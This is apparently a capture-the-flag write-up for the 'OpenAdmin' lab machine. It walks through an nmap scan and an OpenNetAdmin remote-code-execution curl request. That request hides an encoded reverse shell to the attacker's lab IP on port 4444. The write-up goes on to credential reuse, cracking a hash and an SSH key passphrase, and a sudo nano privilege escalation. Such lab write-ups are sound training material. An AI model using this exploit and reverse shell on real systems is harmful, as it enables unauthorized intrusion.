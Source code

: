 # Openadmin
## nmap scan

```log
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-18 15:21 EDT
Nmap scan report for 10.10.10.171
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Li%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   190.96 ms 10.10.16.1
2   94.46 ms  10.10.10.171

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.34 seconds
```

Found a website at `/artwork/`

<p align="center">
  <img  src="Pasted image 20210718203043.png">
</p>

Found page at `/music/`

<p align="center">
  <img  src="Pasted image 20210718210829.png">
</p>

Found OpenNetAdmin at `/ona/`

<p align="center">
  <img  src="Pasted image 20210718210913.png">
</p>

I used an RCE exploit on OpenNetAdmin (https://medium.com/r3d-buck3t/remote-code-execution-in-opennetadmin-5d5a53b1e67) to get a shell using this command :

``` bash
curl -silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;%65%63%68%6f%20%2d%6e%20%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%69%34%79%4e%79%38%30%4e%44%51%30%49%44%41%2b%4a%6a%45%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68&xajaxargs[]=ping" http://10.10.10.171/ona/
```

`65%63%68%6f%20%2d%6e%20%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%69%34%79%4e%79%38%30%4e%44%51%30%49%44%41%2b%4a%6a%45%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68`

is the url encode of :
`echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yNy80NDQ0IDA+JjE= | base64 -d | bash`

<p align="center">
  <img  src="Pasted image 20210718222123.png">
</p>

Found DB credentials in ona :

<p align="center">
  <img  src="Pasted image 20210718230919.png">
</p>

`n1nj4W4rri0R!`

Password works for user `jimmy`:

<p align="center">
  <img  src="Pasted image 20210718231036.png">
</p>

Found a internal open port `52846` that gives access to a web page :

<p align="center">
  <img  src="Pasted image 20210718231219.png">
</p>

Let's SSH tunnel it :

<p align="center">
  <img  src="Pasted image 20210718231455.png">
</p>


<p align="center">
  <img  src="Pasted image 20210718231510.png">
</p>

The code source of the webpage is in `var/www/internal`

<p align="center">
  <img  src="Pasted image 20210718234105.png">
</p>
<p align="center">
  <img  src="Pasted image 20210718234332.png">
</p>

We can see that the username is `jimmy` and the password is hashed, let's crack it :

<p align="center">
  <img  src="Pasted image 20210718234205.png">
</p>

We login and we can see the ssh key of joanna : 

<p align="center">
  <img  src="Pasted image 20210718234305.png">
</p>

Let's SSH in :

<p align="center">
  <img  src="Pasted image 20210718235431.png">
</p>

Needs a passphrase, notice they said "Don't forget you ninja password", so tried `ninja` and jimmy's password but didn't work, so i extracted all the password with `ninja` keyword from the `rockyou.txt` wordlist :

```bash
grep ninja /home/kali/Desktop/rockyou.txt > ninja.txt 
```

and cracked it using `john` :

<p align="center">
  <img  src="Pasted image 20210718235654.png">
</p>

passphrase is `bloodninjas`

<p align="center">
  <img  src="Pasted image 20210718235738.png">
</p>

Got user flag

## Priv esc
<p align="center">
  <img  src="Pasted image 20210719000020.png">
</p>

We can run nano as sudo
So I did the steps shown in GTFObins:

<p align="center">
  <img  src="Pasted image 20210719000315.png">
</p>
Got the root flag~~